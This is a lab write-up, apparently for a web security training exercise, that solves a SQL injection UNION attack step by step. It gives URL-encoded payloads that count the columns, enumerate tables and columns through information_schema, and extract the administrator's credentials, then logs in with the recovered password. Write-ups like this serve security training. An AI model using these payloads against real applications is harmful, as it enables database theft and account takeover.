

# Lab: SQL injection UNION attack, retrieving data from other tables

## Lab Information

 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 


## Steps to Reproduce

### Finding number of Columns

- Using the below payload we can find out the number of columns required.

```sql
'+UNION+SELECT+NULL,+NULL--
```

- So number of columns is **2**.

### Finding String Type Compatibility

- We need to find out which column/columns are string type compatible.

```sql
'+UNION+SELECT+'a','b'--
```

- Both the columns are string compatible.

### Finding Tables

- The below payload can be used to find out the tables present in the database.

```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

- We found a `users` table after injecting the above payload.

### Finding columns of `users` table

- The below payload can be used to find out the columns present in the `users` table.

```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name = 'users'--
```

- The columns found are :-
	- `email`
	- `password`
	- `username`

### Getting `administrator` Credentials

- The below payload can be used to retrieve credentials of `administrator` user.

```sql
'+UNION+SELECT+username,+password+FROM+users+WHERE+username='administrator'--
```

- We get the password `qltkixcupiesxegnn8vg`.

### Login

- We can now use the below credentials to login to the account :-
	- **username** = `administrator`
	- **password** = `qltkixcupiesxegnn8vg`





